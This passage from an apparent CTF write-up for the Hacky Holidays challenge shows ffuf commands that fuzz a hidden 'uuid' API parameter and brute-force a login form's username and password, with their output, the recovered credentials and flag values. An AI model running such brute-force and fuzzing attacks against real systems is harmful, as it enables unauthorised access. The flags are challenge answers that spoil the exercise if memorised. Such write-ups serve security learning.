 The user endpoint returns `400 Bad Request` and the message `{"error":"Missing required fields"}` when being called without parameters. Another round of fuzzing with different wordlists finally revealed that the `uuid` parameter is required:

```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u https://hackyholidays.h1ctf.com/swag-shop/api/user?FUZZ=x -mc all -fr 'Missing required fields' -t 4
[snip]
uuid                    [Status: 404, Size: 40, Words: 5, Lines: 1]
:: Progress: [2588/2588] :: Job [1/1] :: 20 req/sec :: Duration: [0:02:08] :: Errors: 0 ::
```

The `404 Not Found` first made me think that this approach was another rabbit hole, but the message `{"error":"Could not find matching uuid"}` looked promising. Using the user ID as UUID finally gave me grinch's personal details together with the flag, `flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}`:

{F1138932}

## Flag 5 - Secure Login

**App description**: "Try and find a way past the login page to get to the secret area."

When visiting `https://hackyholidays.h1ctf.com/secure-login`, a login form is shown and nothing else. When trying to login with random username and password, the error message `Invalid Username` gets returned. I tried to manipulate the username and password parameters, use SQLI payloads and test if special characters cause different error messages without success. As there was no other interesting content in the HTML source of the login page, I decided to bruteforce the username:
```
$ ffuf -X POST -w /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -u https://hackyholidays.h1ctf.com/secure-login -d 'username=FUZZ&password=asdf' -H 'Content-Type: application/x-www-form-urlencoded' -mc all -fr "Invalid Username"
[snip]
access                  [Status: 200, Size: 1724, Words: 464, Lines: 37]
:: Progress: [1000/1000] :: Job [1/1] :: 200 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

Great - using `access` as username returns `Invalid Password` instead of `Invalid Username`. Maybe we can bruteforce the password as well?

```
$ ffuf -X POST -w /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -u https://hackyholidays.h1ctf.com/secure-login -d 'username=access&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -mc all -fr "Invalid Password"
[snip]
computer                [Status: 302, Size: 0, Words: 1, Lines: 1]
:: Progress: [1000/1000] :: Job [1/1] :: 200 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

Great, seems like we got valid credentials!

Login with credentials `access:computer` succeeds, but `No Files To Download` gets displayed. Looks like there are some files to download, but not for us... 

{F1138933}

After searching for interesting stuff in the HTML source with no success, I decided to take a closer look at the authentication mechanism. The page uses cookie-based authentication. The cookie seems to be base64-encoded JSON because it starts with `eyJ` and ends with `%3D` (which is `=` when being URL-decoded). Decoding the cookie gives the following result:

